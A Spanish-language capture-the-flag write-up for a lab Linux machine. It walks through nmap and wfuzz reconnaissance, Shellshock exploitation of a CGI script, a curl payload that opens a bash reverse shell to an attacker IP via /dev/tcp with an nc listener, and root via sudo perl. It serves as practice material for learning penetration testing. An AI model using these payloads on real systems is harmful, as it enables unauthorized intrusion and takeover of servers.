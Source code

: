 ## Summary

Tags:  #Linux #HTTP #ShellShock #Sudoers #Fuzzing #Nmap 

- IP -> 10.10.10.56
- Ports -> TCP (80, 2222), UDP (idk)
- OS ->  Linux Ubuntu 
- Services & Applications
    - 80 -> Apache httpd 2.4.18 
    - 2222 -> OpenSSH 7.2p2 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

* 80 -> Apache httpd 2.4.18  -> Xenial 
* 2222 -> OpenSSH 7.2p2  -> Xenial

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

```bash
❯ nmap --script http-enum -p80 ❮Target IP❯ -oN WebScan #  http-enum = Aplica Fuzing a HTTP, utiliza un diccionario de 1000 rutas y ver si hay algunas rutas existen

	#  -p80 = Indica el puerto que se quiere escanear
	#  Target IP = Dirección IP que se quiere escanear
	#  -oN WebScan = Exporta el output a un fichero en formato nmap con nombre “WebScan”
```

Miramos con Whatweb
```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
```

Haremos fuzzing para buscar mas dir en la web. 
```bash
# Para hacer Fuzzing a la web
❯ wfuzz -c --hc=404 --hh=137 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ 

# Como no nos sale nada, debemos de colocarle la barra al final de FUZZ que seria lo mas recomendable
❯ wfuzz -c --hc=404 --hh=137 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.56/FUZZ/
	# Encontramos un dir llamado 'cgi-bin'

# Este dir sale cuando tenemos un ShellShock como vulnerabilidad, por lo que haremos otro fuzzing pero con ese dir agregado a la ruta para descubrir archivos que pueden existir en ese dir cgi
❯ wfuzz -c --hc=404 -t 200 -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -z list,sh-pl-cgi http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
	# Nos encuentra un "user - sh = user.sh"

```

Colocando la ruta final la cual sería: **10.10.10.56/cgi-bin/user.sh** nos permite descargar un archivo a la maquina de atacante. 

Pero en lugar de descargarlo, podemos ver lo que es con curl.
```bash 
❯ curl -s -X GET http://10.10.10.56/cgi-bin/user.sh      # Miramos el contenido del archivo, nos damos cuenta que es un archivo ejecutable dinamico
```

Cuando tenemos la carpeta cgi-bin, podemos hacer un ataque de ShellShock de la siguiente manera. 
```bash 
❯ nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh -p80 10.10.10.56    # Ver si es vulnerable a ShellShock
```

```bash 
curl -s -X GET http://<IP>/cgi-bin/user.sh -H "User-Agent: () { :; }; /usr/bin/whoami"  # Debemos de coloca la ruta del archivo.sh, ya que si solo colocamos /cgi-bin/ nos sladra que no tenemos permisos

	# s = Silence 
	# H = Cabecera para el ataque de ShellShock
	# Ruta absoluta del comando que quieres ejecutar y lo ves con 'which' -> which whoami

# Nos sale que el nombre del usuario es Shelly

# Podemos usar el ShellShock para ganar acceso a la maquina.
curl -s -X GET http://<IP>/cgi-bin/ -H "User-Agent: () { :; }; echo; /bin/bash -c '/bin/bash -i >& /dev/tcp/<IP-Atacante>/443 0>&1'" 

```

Antes de usar el comando anterior, debemos de colocarnos en escucha para recibir la revershell
```bash
❯ nc -nlvp 443 
```

## User

Una vez dentro de la maquina victima, hacemos el tratamiento de la TTL para obtner una pseudo-consola

```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

Ahora nos disponemos a buscar la flag del usuario. 

```bash
❯ lsb_release -a                             # Miramos algunas caracteristicas de la maquina Linux 
```

## Root

Para convertirnos en root buscamos en el Sudoers
```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoer y poder ejecutar como root algun comando
	
	# (ALL : ALL) ALL
	# ALL=(root) NOPASSWD: /usr/bin/perl
```

Buscamos en la siguiente pagina:
- **GTFOBins**: [https://gtfobins.github.io/](https://gtfobins.github.io/)

Y encontramos el comando que debemos de ejecutar para poder usar **Perl** y así convertirnos en root. Después buscamos el root.txt. 